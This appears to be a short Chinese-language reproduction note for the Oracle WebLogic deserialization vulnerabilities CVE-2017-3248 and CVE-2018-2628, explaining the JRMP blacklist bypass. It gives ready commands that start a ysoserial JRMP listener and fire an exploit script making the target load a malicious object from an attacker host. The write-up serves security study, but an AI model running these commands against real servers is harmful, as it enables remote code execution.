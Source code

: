 # CVE-2017-3248&CVE-2018-2628 反序列化
影响版本:
```
Oracle WebLogic Server10.3.6.0
Oracle WebLogic Server12.2.1.2
Oracle WebLogic Server12.2.1.3
Oracle WebLogic Server12.1.3.0
```
## 原理
CVE-2017-3248该漏洞主要使用JRMP协议来绕过之前对T3协议的反序列化黑名单,首先通过T3协议发送反序列化payload使得目标成为一个JRMP客户端来连接我们监听的恶意JRMP服务端,然后客户端获取我们JRMP服务端发送的反序列化数据后会再次进行反序列化,从而造成二次反序列化RCE.
### JRMP模块利用流程 
1. 在vps上监听一个JRMP Server  
`java -cp ysoserial.jar  ysoserial.exploit.JRMPListener 9999 CommonsCollections1 "touch /tmp/test.txt" `
![](1.png)
2. 发送payload使目标成为一个JRMP客户端来加载JRMP Server上的远程恶意类.  
` python2 .\2018-2628.py 127.0.0.1 7001 ..\ysoserial.jar 192.168.126.129 9999 JRMPClient`
![](2.png)

#### CVE-2018-2628
而CVE-2018-2628为CVE-2017-3248黑名单修复的绕过,在CVE-2017-3248的补丁中,主要是在`resolveClass`中对`java.rmi.registry.Registry`接口进行了黑名单过滤,该漏洞则是使用了`java.rmi.activation.Activator`来替代`java.rmi.registry.Registry`接口进行远程加载从而绕过了黑名单.

**参考**  
https://xz.aliyun.com/t/8073#toc-0  
https://xz.aliyun.com/t/10171#toc-0  
http://xxlegend.com/2018/06/20/CVE-2018-2628%20%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0%E5%92%8C%E5%88%86%E6%9E%90/